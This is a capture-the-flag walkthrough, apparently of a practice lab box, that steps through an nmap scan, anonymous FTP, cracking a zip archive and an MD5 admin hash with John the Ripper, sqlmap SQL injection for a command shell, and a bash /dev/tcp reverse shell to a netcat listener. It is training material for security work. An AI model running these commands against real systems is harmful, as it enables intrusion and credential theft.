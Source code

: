 ## Vaccine Solution

### Besides SSH and HTTP, what other service is hosted on this box?
1. Run an nmap scan with the `-sV` (version of services) `-sC`(default scripts for service discovery and vulnerability detection) 
   ```bash
   nmap -sV -sC {target_machine_ip}
   nmap -sC -sV 10.129.251.21
   ```
![Screenshot 2024-02-19 at 8 50 14 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/6e42d6b3-b7cf-4f42-978f-8213b6bb9f10)

**Answer: ftp**

### This service can be configured to allow login with any password for specific username. What is that username? 

As with the nmap results above the `sC` option was able to determine that **Anonymous FTP login allowed**. If you do a google search the username for this is usually `anonymous`

**anonymous**

## What is the name of the file downloaded over this service?

1. Let's connect via ftp

```bash
ftp {target_machine_ip}
```

2. For username just use `anonymous` and just enter blank password.
3. Enter `ls` and you will find `backup.zip`
4. Run `get backup.zip`

![Screenshot 2024-02-19 at 11 41 56 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/5a467605-0e2d-44f8-b10c-26c3235f9790)



**Answer: backup.zip**

### What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?

1. We try to unzip the backup.zip however a password is required.
   ![Screenshot 2024-02-20 at 12 00 57 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/ae3c46ff-0939-4956-8cc9-8d8c92440424)


2. Do a quick google search and you will find the answer

**Answer: zip2john** 


##What is the password for the admin user on the website?

1. Let's run the `zip2john` script to crack the password. First let's obtain the password hashes.
   ```bash
   zip2john backup.zip > zip.txt
   ```
 
   ![Screenshot 2024-02-20 at 11 08 05 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/1a4ac24e-c684-4583-8f3d-77fd3d0e2db3)

2. Then let's crack the password for the backup.zip
   ```bash
   john zip.txt   
   ```
   ![Screenshot 2024-02-20 at 11 08 56 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/ed883cff-3296-4b69-b6cb-88d6a3d2633a)


3. Now let's unzip backup.zip with the password `741852963`. This gives us two files `index.php` and `style.css`
   ```bash
   unzip backup.zip
   ```
![Screenshot 2024-02-20 at 11 10 22 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/d214ebb6-65ae-4578-ab97-ad4f922a922b)

4. Now let's investigate the index.php `vim index.php`. Here we find a hashed password `2cb42f8734ea607eefed3b70af13bbd3` for the username `admin`. 
   
![Screenshot 2024-02-20 at 11 21 43 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/89307436-b4f4-4097-8c85-98c40531cd06)

5. Let's analyze the hash type by going on any hash analyzer. We use [https://hashes.com/en/tools/hash_identifier](https://hashes.com/en/tools/hash_identifier) in this case and find that it is MD5 format.

   ![Screenshot 2024-02-20 at 11 35 10 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/f49117bb-77a6-4b85-beab-f66fc95b04db)


6. Create a file called `admin-hash.txt` then insert the hash found in the previous step. Let's crack the hash password using john
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 admin-hash.txt
```
![Screenshot 2024-02-20 at 11 42 25 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/39740423-3616-4cf0-a75f-c1af601dd2e7)


**Answer: qwerty789**


## What option can be passed to sqlmap to try to get command execution via the sql injection?

1. Login using username `admin` and password `qwerty789`
2. Go to browser and get the cookie `PHPSESSID` value
![Screenshot 2024-02-22 at 12 45 40 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/9954818a-ad05-4789-9292-8b6e202e1b8a)



3. Next as we view with the page after we login, we can see one possible form to attack with SQL injection. We observe that submitting it appends a query parameter `search`
![Screenshot 2024-02-22 at 12 49 49 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/6f874149-cb51-4d73-81a8-488be978f271)

4. Let's use sqlmap and run the following.

```bash
sqlmap -u "http://{target_ip}/dashboard.php?search=test" --cookie="PHPSESSID={cookie_value}" --os-shell

sqlmap -u "http://{target_ip}/dashboard.php?search=test" --cookie="PHPSESSID={cookie_value}" --os-shell --os-shell
```
5. We have spawned a os-shell with user postgres. However executing `sudo -l` does not yield any meaningful results. The os-shell is limited in commands it can execute. It is not interactive 

![Screenshot 2024-02-22 at 12 56 35 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/508193c6-850c-405d-89c9-8c13377c2e08)

5. Let's go to our attack machine and create a netcat listner server

   ```bash
  nc -lvnp 5000 -e /bin/bash
   ```

6. On our target machine running sqlmap os-shell let's connect to our server to spawn a reverse shell.

   ```bash
 bash -c  "bash -i >& /dev/tcp/{attack_machine_ip}/5000  0>&1"
   ```

7. We have spawned a reverse shell however we do not have an interactive shell yet.
![Screenshot 2024-02-22 at 1 11 58 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/e4502837-7e73-4692-8d16-6c07b0d3aae5)

